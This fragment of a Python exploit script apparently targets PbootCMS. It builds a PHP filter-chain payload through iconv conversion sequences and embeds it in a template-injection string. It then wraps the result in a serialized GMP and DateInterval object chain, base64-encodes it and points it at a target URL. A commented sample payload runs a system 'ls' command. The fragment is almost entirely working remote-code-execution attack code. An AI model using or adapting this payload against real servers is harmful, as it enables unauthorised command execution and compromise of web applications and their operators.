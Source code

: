 ```python
        'V': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.851.BIG5',
        '0': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.1046.UCS2',
        'Y': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UCS2',
        'W': 'convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936',
        'd': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UJIS|convert.iconv.852.UCS2',
        'D': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2',
        '7': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.866.UCS2',
        '4': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.IEC_P271.UCS2'
    }


    # generate some garbage base64
    filters = "convert.iconv.UTF8.CSISO2022KR|"
    filters += "convert.base64-encode|"
    # make sure to get rid of any equal signs in both the string we just generated and the rest of the file
    filters += "convert.iconv.UTF8.UTF7|"


    for c in base64_payload[::-1]:
            filters += conversions[c] + "|"
            # decode and reencode to get rid of everything that isn't valid base64
            filters += "convert.base64-decode|"
            filters += "convert.base64-encode|"
            # get rid of equal signs
            filters += "convert.iconv.UTF8.UTF7|"

    filters += "convert.base64-decode"

    final_payload = f"php://filter/{filters}/resource={file_to_use}"

    return final_payload


session = requests.session()

#burp0_url = "http://10.10.56.23/"

url = "http://127.0.0.1:8889"

poc = f"require/**/({php_lfi()})"

poc = '{pboot:if(date(%s))}(123123){/pboot:if}' % poc.encode()

poc = f"s:{len(poc)}:\"{poc}\";"

inner = 's:1:"1";a:2:{s:4:"head";'+poc+'i:0;O:12:"DateInterval":1:{s:1:"y";R:2;}}';
poc = 'a:1:{i:0;C:3:"GMP":'+str(len(inner))+':{'+inner+'}}'

poc = poc.encode()

poc = base64.b64encode(poc).decode()

#poc = "YToxOntpOjA7QzozOiJHTVAiOjEyNzp7czoxOiIxIjthOjI6e3M6NDoiaGVhZCI7czo1NDoie3Bib290OmlmKGRhdGUoInN5cyIuInRlbSIoImxzIikpKX0oMTIzMTIzKXsvcGJvb3Q6aWZ9IjtpOjA7TzoxMjoiRGF0ZUludGVydmFsIjoxOntzOjE6InkiO1I6Mjt9fX19"
```